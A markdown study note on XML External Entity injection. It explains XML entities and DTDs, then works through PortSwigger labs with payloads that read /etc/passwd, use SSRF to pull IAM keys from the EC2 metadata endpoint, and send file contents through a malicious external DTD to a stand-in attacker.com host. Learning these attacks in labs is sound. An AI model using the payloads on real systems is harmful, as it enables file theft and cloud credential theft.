

# XML External Entity (XXE)

XML External entity(XXE) injection is a vulnerability that allows attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external ssyytems that application can access.

## What is XML?

XML is very similar to HTML

```html
<html>
    <head></head>
    <body>
        <h1>Hi this is HTML</h1>
    </body>
</html>
```

HTML (HyperText Markup Language) is a markup language used for creating the structure of web pages, with predefined tags like `<a>`, `<body>`, `<p>`, and `` for common elements.&#x20;

On the other hand, XML (eXtensible Markup Language) is a flexible markup language used for storing and transporting data, where the tags are not predefined and can be customized to suit specific needs

## XML Design

The original purpose of XML is to stored datas like a mini database.

```xml
<user>
    <username>Chen xing</username>
    <age>18</age>
</user>
<user>
    <username>Ong zhengjie</username>
    <age>24</age>
</user>
```

Tags like `username` and `age` are customized, however XML also reserve some of the predefined tags like HTML.

In XML they are called `ENTITY`

Example:

```
<!ENTITY user "Chenxing">
```

This create a variable `user` and assigned the value `Chenxing`

In order to use the entity in XML, we have to specifed it in XML forms

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE body [
    <!ENTITY user "Chenxing">
]>

<body>
    <message>&user;</message>
</body>
```

### 1) **XML Declaration:**

```
<?xml version="1.0" encoding="UTF-8"?>
```

* **`version="1.0"`**: This specifies that the XML document adheres to version 1.0 of the XML standard.
* **`encoding="UTF-8"`**: This indicates that the character encoding used in the document is UTF-8, which is a common encoding format that supports a wide range of characters.

### 2. **DOCTYPE Declaration:**

```
<!DOCTYPE body [
    <!ENTITY user "Chenxing">
]>
```

* **`<!DOCTYPE body [...]>`**: This part of the XML document declares the DTD for the document. The `DOCTYPE` declaration specifies that the root element of the document is `<body>`.
* **Internal DTD**: The content within the square brackets `[ ... ]` is an internal DTD. It defines entities, elements, attributes, and other structural rules directly within the XML document.

### 3. **ENTITY Declaration:**

```
<!ENTITY user "Chenxing">
```

* **`<!ENTITY user "Chenxing">`**: This defines an entity named `user`. Entities are essentially placeholders or shortcuts for content that can be reused throughout the document. In this case, the entity `user` is defined with the value "Chenxing".
* **Usage**: You can reference this entity anywhere in the XML document by using `&user;`, which will be replaced with the value `"Chenxing"` when the document is processed.

### 4. **Root Element (`<body>`):**

```
<body>
    <message>&user;</message>
</body>
```

When XML parser read this, it will replace `&user` into the value defined in Internal DTD

## Parameter entites

Parameter entites in DTD is a way to define a reusable structure or template, it allows entities can then be referenced multiple times in DTD

E.g.

```xml
<!DOCTYPE body [
    <!-- Define a parameter entity for a reusable element structure -->
    <!ENTITY % person "(username, age, address)">
    
    <!-- Use the parameter entity in element declarations -->
    <!ELEMENT user %person;>
    <!ELEMENT admin %person;>
    
    <!ELEMENT username (#PCDATA)>
    <!ELEMENT age (#PCDATA)>
    <!ELEMENT address (#PCDATA)>
]>
<body>
    <user>
        <username>Chen xing</username>
        <age>18</age>
        <address>Singapore</address>
    </user>
    <admin>
        <username>Ong zhengjie</username>
        <age>24</age>
        <address>USA</address>
    </admin>
</body>
```

With the above parameter entities, it can only consist of entity defined in internal DTD, else it will trigger error when XML parse it.

## External DTD

Since we keep talking about Internal DTD, is there any external DTD?

Yes, it's called SYSTEM or PUBLIC.

We can create a filed called `user.dtd` and **REFERENCE** it using the keyword `SYSTEM` or `PUBLIC`

**user.dtd**

```
<!-- Define the structure for the user element -->
<!ELEMENT user (username, age, address)>

<!-- Define the sub-elements of the user element -->
<!ELEMENT username (#PCDATA)>
<!ELEMENT age (#PCDATA)>
<!ELEMENT address (#PCDATA)>
```

Reference the external DTD using the `SYSTEM` identifier

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE body SYSTEM "user.dtd">

<body>
    <user>
        <username>Chen xing</username>
        <age>18</age>
        <address>Singapore</address>
    </user>
    <admin>
        <username>Ong zhengjie</username>
        <age>24</age>
        <address>USA</address>
    </admin>
</body>
```

### Difference between SYSTEM and PUBLIC

Both SYSTEM and PUBLIC are used to reference external entities, but the difference lies in their usage: SYSTEM is used to reference a private, local, or custom-defined DTD, while PUBLIC is used to reference a public, standard DTD.&#x20;

You can think of PUBLIC as being used for DTDs that are publicly available in online repositories and have a fixed identifier.

## XXE to retrieve files

Simplied use `SYSTEM` identifer and construct a malicious entity

Lab from portswigger:

<pre><code>&#x3C;?xml version="1.0" encoding="UTF-8"?>
&#x3C;stockCheck>&#x3C;productId>
<strong>1&#x3C;/productId>&#x3C;storeId>2&#x3C;/storeId>&#x3C;/stockCheck>
</strong></code></pre>

and we modifed the XML, added in the `SYSTEM` identifer to read files from `/etc/passwd`

```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
<!ENTITY xxe SYSTEM "file://etc/passwd">
]>
<stockCheck><productId>&xxe</productId><storeId>2</storeId></stockCheck>
```

<figure><figcaption></figcaption></figure>

## XXE to SSRF

XXE attacks is able to perform Server-side request forgery

Lab from portswigger:


```
 This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint. 
```


First, identify the XXE area.

In path `/product/stock`


```
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```


Next our goal is to use XXE to extract potential data from the default EC2 endpoint



Query to \`[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)\` Gives the roles admin

<figure><figcaption></figcaption></figure>

Embeded the rolename and we got the keys

<figure><figcaption></figcaption></figure>

## Blind XXE

In many case, XXE vulnerabilities are blind, application does not return the values of any defined external entites in its response, direct retrieval of server-side files is not possible.

This involve of using webhook or dnslogs, feel free to use the following sites or use burp collaborator instead





#### Blind XXE with DNS logs

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Similar to SSRF attacks, point to external entity.

### Blind XXE with XML parameter entities

Some of the XML parser might block regular entities or hardening. We can use parameter entites instead

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

### Blind XXE with data exfiltrate

To exfiltrate data out of band, it will be a little bit more works to do. The attacker have to host a malicious DTD on their server, and then invoke the external DTD within the XXE payload

E.g. of malicious DTD to extract the contents of the `/etc/hostname`&#x20;

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#25; exfiltrate SYSTEM 'http://attacker.com/?file=%file;'>">
%eval;
%exfiltrate;
```

First line is to store the target files into the entity `file`

Second line is to construct a dynamic entitiy that containing a dynamic declaration of another XML parameter entity called exfiltrate.

&#x20;he exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.&#x20;

Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.&#x20;

Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

In the XXE, we just perform normally to load the external DTD with parameter entites

<figure><figcaption><p>XML request</p></figcaption></figure>

<figure><figcaption><p>Result</p></figcaption></figure>

## Interview Questions

1）What is the difference between System and public identifier

2\) Other than DTD, what are some other type standard used with XML

3\) Create a simple external DTD and reference from a file.

4\) What is the core problem of XXE?

5\) If your payload does not return response, How do you check XXE is working?

6\) How to mitigate XXE

